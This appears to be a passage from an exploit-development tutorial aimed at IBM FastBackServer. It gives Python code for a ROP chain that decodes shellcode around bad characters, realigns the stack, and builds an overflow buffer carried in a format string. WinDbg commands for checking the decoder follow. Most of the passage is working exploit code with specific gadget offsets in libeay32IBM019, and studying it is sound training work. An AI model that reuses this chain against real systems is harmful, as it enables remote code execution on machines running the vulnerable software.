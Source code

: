         restoreRop += pack("<L", (dllBase + 0x117c))    # pop ecx ; ret
        restoreRop += pack("<L", (neg_offset))
        restoreRop += pack("<L", (dllBase + 0x4a7b6))	# sub eax, ecx ; pop ebx ; ret
        restoreRop += pack("<L", (value))               # values in BH
        restoreRop += pack("<L", (dllBase + 0x468ee))   # add [eax+1], bh ; ret
        return restoreRop

First we'll list the possible bad characters and the associated characters we want to add. Next, we can create an accumulator variable (restoreRop) that will contain the entire decoding ROP chain.

Next, we need to perform a loop over all the bad character indexes. For each entry, we'll calculate the offset from the previous bad character to the current bad character. This offset is negated and assigned to the neg_offset variable and used in the ROP chain for the POP ECX instruction.

To determine the value to add to the replacement character, we can perform a nested loop over all possible bad characters to determine which one was present at the corresponding index. Once the value is found, it is stored in the value variable.

Since the contents of value must be popped into BH, we have to left-shift it by 8 bits. This will produce a value that is aligned with the BH register but contains NULL bytes. To solve the NULL byte problem, we will perform an OR operation with the static value 0x11110011.

Finally, the result is written to the ROP chain where it will be popped into EBX at runtime.

This complex process enables us to perform custom encoding that avoids bad characters during network packet processing. This process also allows us to decode the shellcode before it is copied to the non-writable code cave.

To use decodeShellcode, we'll call it just after the ROP chain that aligns EAX with the beginning of the shellcode.
# Align EAX with shellcode  
rop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
rop += pack("<L", (0xfffff9e5))	
rop += pack("<L", (dllBase + 0x4a7b6)) # sub eax, ecx ; pop ebx ; ret
rop += pack("<L", (0x42424242)) # junk into eb

rop += decodeShellcode(dllBase, pos, shellcode)

# Align ESP with ROP Skeleton
rop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
rop += pack("<L", (0xffffffec)) # -14
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x5b415)) # xchg eax, esp ; ret

offset2 = b"C" * (0x600 - len(rop))
padding = b"D" * (0x1000 - 276 - 4 - len(rop) - len(offset2) - len(encodedShellcode))

formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (offset+wpm+eip+rop+offset2+encodedShellcode+padding,0,0,0,0)
buf += formatString

With the proof of concept updated, let's restart FastBackServer, attach WinDbg, and set a breakpoint on the ROP gadget where EAX is aligned with the shellcode. When the exploit is executed, we can verify our decoder in WinDbg:
	bp libeay32IBM019+0x4a7b6
	g
	p
	db eax L10
	g
	p
	db eax L10
	
